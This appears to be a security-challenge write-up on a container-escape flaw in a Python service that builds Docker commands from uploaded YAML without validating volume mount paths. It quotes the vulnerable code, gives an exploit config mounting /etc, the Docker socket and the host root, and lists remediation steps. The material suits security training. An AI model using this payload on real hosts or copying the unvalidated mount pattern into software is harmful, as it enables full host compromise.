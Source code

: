 # Challenge 31: Container Escape via Volume Mount Injection

## Vulnerability
The application validates that Docker images come from a trusted registry and sanitizes environment variables, but fails to properly validate volume mount paths. An attacker can escape the container and access the host filesystem by injecting malicious volume mounts.

## Location
`main.py` lines 79-84:
```python
for volume in volumes:
    if isinstance(volume, str):
        docker_cmd.extend(['-v', volume])
    elif isinstance(volume, dict) and 'host' in volume and 'container' in volume:
        docker_cmd.extend(['-v', f"{volume['host']}:{volume['container']}"])
```

## Impact
- Container escape and host filesystem access
- Privilege escalation on the host system
- Data exfiltration from host directories
- Potential compromise of other containers and services

## Why It's Hard to Detect
- The validation focuses on image registry and environment variables
- Volume validation appears to check for proper structure
- The vulnerability is in the lack of path validation, not the parsing logic
- Most static analyzers would miss this logical security flaw

## Exploitation
Upload a YAML configuration file:
```yaml
image: "internal-registry.company.com/ubuntu:latest"
name: "test-container"
volumes:
  - host: "/etc"
    container: "/host-etc"
  - host: "/var/run/docker.sock"
    container: "/var/run/docker.sock"
  - "/:/host-root"
```

This mounts sensitive host directories including:
- `/etc` (system configuration)
- `/var/run/docker.sock` (Docker daemon socket for full container control)
- `/` (entire host filesystem)

## Remediation
1. Implement strict whitelist for allowed volume mount paths
2. Validate that host paths are within allowed directories
3. Prevent mounting of sensitive system directories
4. Use read-only mounts where possible
5. Implement proper access controls and path sanitization
